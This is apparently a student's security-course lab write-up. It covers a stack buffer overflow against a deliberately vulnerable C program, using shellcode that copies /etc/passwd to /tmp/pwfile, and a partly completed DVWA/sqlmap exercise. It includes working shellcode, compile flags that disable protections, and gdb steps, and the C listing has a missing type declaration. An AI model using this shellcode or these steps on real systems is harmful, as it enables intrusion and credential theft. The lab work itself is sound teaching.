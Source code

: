 # Lab #1,22110009, Le Cong Bao, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:
  #### step 1: Create a vulnerable c program
  ``` 
    seed@567028f4b4b0:~/seclabs/bof$ nano vulnerable.c 
  ```
  ![image](https://github.com/user-attachments/assets/227b7284-5d61-466c-a766-f56c8ba2579b)

  #### step 2: Compile the vulnerable c program
  ```bash
     gcc -o vulnerable vulnerable.c -fno-stack-protector -z execstack
  ```
  
  - -fno-stack-protector: Disables stack protection, making the program vulnerable to buffer overflow attacks.
  - -z execstack: Allows execution of code on the stack, enabling exploitation through injected shellcode.
  #### step 3: Build an Assemply payload
  ``` 
    seed@567028f4b4b0:~/seclabs/bof$ nano shellcode.asm
  ```
  ![image](https://github.com/user-attachments/assets/4f8b0e7d-a38a-4098-bab7-025926764e0b)

  #### step 4: Compile the Asssemply code
  ```bash
     nasm -f elf32 -o shellcode.o shellcode.asm
     ld -m elf_i386 -o shellcode shellcode.o
  ```
  #### step 5: Find the address of the shellcode
  ```bash
     gdb ./vulnerable
  ```
  - in `gdb` set a breakpoint at `main ` run the program with a dummy argument to obtain the address of your shellcode.
  ```bash
     break main
     run $(python -c "print('A'*72)")
     p &buffer
  ```
    
**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
1. Pull DVMA Docker image
   ```bash
      docker pull vulnerables/web-dvwa
      docker run -d -p 80:80 vulnerables/web-dvwa
   ```
   ![image](https://github.com/user-attachments/assets/c89ed07c-5616-4614-8b55-8f4a27d30e8a)
2. Access DVWA with a web browser and go to: http://localhost Log in with the default user
   ![image](https://github.com/user-attachments/assets/c4c3bba3-24e9-4a2b-a9c3-660a20aeed61)
   User: admin
   Password: password
   ![2](https://github.com/user-attachments/assets/d606eac2-2999-4370-b19c-b959cda33fff)
3. Install SQLMap in WSL
   ```bash
      wsl
      sudo apt install sqlmap
   ```

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
